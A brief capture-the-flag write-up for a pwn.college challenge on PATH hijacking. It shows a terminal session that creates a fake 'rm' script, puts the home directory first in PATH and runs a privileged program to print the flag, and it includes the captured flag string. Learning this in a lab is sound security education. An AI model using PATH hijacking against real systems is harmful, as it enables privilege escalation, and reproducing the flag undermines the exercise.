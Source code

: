 # Highjacking Commands
In this challenge, we try thousands of times and each time figure out the mistake until the flag is achieved. 
So we start by learning form the name of the challenge that we need to highjack something, and since we know `/challenge/run` will execute `rm` we start by editing the commands inside `rm` to make it print the flag.
Then after hours of trying to fix the PATH we add the home directory to the beginning and give `rm` executable permissions. Then we run the challenge to obtain the flag.
```
Connected!
hacker@path~hijacking-commands:~$ touch rm
hacker@path~hijacking-commands:~$ nano rm
hacker@path~hijacking-commands:~$ PATH=/home/hacker:$PATH
hacker@path~hijacking-commands:~$ chmod a+x rm
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /home/hacker/rm. Executing!
pwn.college{8TuQx3Br3qdAQX2-3CkRPKfjcpf.ddzNyUDLzIzN0czW}
hacker@path~hijacking-commands:~$
```
